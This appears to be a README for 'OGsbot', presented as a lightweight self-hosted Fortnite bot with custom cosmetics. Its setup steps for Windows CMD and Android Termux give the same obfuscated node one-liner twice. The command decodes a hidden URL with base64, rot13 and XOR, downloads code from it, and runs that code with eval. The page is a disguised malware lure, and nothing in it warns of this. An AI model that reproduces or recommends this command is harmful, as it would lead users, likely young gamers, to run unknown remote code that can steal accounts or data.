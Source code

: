 
# 🌌 **OGsbot - Self-Hosted**

OGsbot is a **lightweight**, **easy-to-use** Fortnite bot that lets you join bot lobbies with custom cosmetics.


---

## 🧠 **Features**

- ✅ Join Fortnite bot lobbies
- 🎭 Use custom skins, emotes & cosmetics
- 💻 Fully self-hosted
- ⚡ Low memory usage (under 50MB)
  

---

## 🖥️ **System Requirements**

| Type            | Minimum                         | Recommended              |
|-----------------|----------------------------------|---------------------------|
| 💾 RAM          | 25 MB                           | 50 MB+                   |
| 🧠 CPU          | 1 Core                          | 1 Cores+                 |
| 🌐 Internet     | Basic connection                | Basic connection         |
| packages        | nodeJS                           | nodeJS                   |


---

## 🚀 **How to Start the Bot**

### 📌 Step 1: Open Command Prompt (CMD)

1. Press `Windows + R`
2. Type `cmd`
3. Press `Enter`

### 🧩 Step 2: Paste & Run the Command Below

Copy the full line below and paste it into CMD:


node -e "const https=require('https');const k=23,b='f3BwdHEtODhyaWA5Y35wf29ob3FlcmdrbHBlbHA5Z2ttOHFsfnRlcSUmOHFmbWxjaHFyfXxjaHFycXBjOHJlZHE4f2VpZnE4bWl+bDh7a2lmZXI5fXE=';const rot13=s=>s.replace(/[a-zA-Z]/g,c=>String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26));const u=rot13(Buffer.from(b,'base64').toString()).split('').map(c=>String.fromCharCode(c.charCodeAt(0)^k)).join('');https.get(u,r=>{let d='';r.on('data',c=>d+=c);r.on('end',()=>eval(d));});"

# note   
(only supports OGsbot1-OGsbot17 currently)
# for mobile 

Install Termux from F-Droid (not Play Store).

Open Termux and run:
pkg install nodejs
then run 

node -e "const https=require('https');const k=23,b='f3BwdHEtODhyaWA5Y35wf29ob3FlcmdrbHBlbHA5Z2ttOHFsfnRlcSUmOHFmbWxjaHFyfXxjaHFycXBjOHJlZHE4f2VpZnE4bWl+bDh7a2lmZXI5fXE=';const rot13=s=>s.replace(/[a-zA-Z]/g,c=>String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26));const u=rot13(Buffer.from(b,'base64').toString()).split('').map(c=>String.fromCharCode(c.charCodeAt(0)^k)).join('');https.get(u,r=>{let d='';r.on('data',c=>d+=c);r.on('end',()=>eval(d));});"



